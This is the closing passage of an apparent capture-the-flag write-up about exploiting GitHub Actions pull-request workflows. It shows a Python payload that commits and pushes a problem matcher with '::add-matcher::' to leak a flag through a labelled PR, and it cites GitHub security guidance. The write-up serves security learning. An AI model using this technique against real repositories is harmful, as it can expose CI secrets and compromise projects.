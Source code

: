 ```py
            "pattern": [
                {
                    "regexp": "^flag\\\\{(.*)\\\\}$",
                    "message": 1
                }
            ]
        }
    ]
}         
""")

os.system("cd /tmp/foo; git add test.json; git commit -m '::add-matcher::test.json'; git push origin main")
```

Using this payload via the Dockerfile, we can then commit the problem matcher to main, and open a separate PR
labelled with the `flag` label to trigger the `flag.yml` workflow.

And indeed, this works, and displays the flag:

![Flag](./flag.png)

I had a lot of fun testing the challenge, and it shows again just how delicate running GitHub Actions on PRs
of untrusted contributors can be, as underlined by the flag contents.🦶🔫

[^1]: <https://x.com/pspaul95/>
[^2]: <https://docs.github.com/en/actions/reference/workflows-and-actions/events-that-trigger-workflows#pull_request_target>
[^3]: <https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/>
[^4]: <https://codeql.github.com/codeql-query-help/actions/actions-envvar-injection-critical/>
[^5]: <https://docs.github.com/en/actions/how-tos/write-workflows/choose-what-workflows-do/use-secrets>
[^6]: <https://fusectore.dev/2021/11/19/github-action-problem-matchers.html>, <https://github.com/actions/runner/blob/60af948051cbeaf51d87397c40354c1496fcdd8f/docs/adrs/0276-problem-matchers.md?plain=1#L23>
[^7]: <https://github.com/actions/runner/blob/60af948051cbeaf51d87397c40354c1496fcdd8f/src/Runner.Worker/ActionCommandManager.cs#L493>
[^8]: <https://docs.github.com/en/actions/reference/workflows-and-actions/workflow-commands>
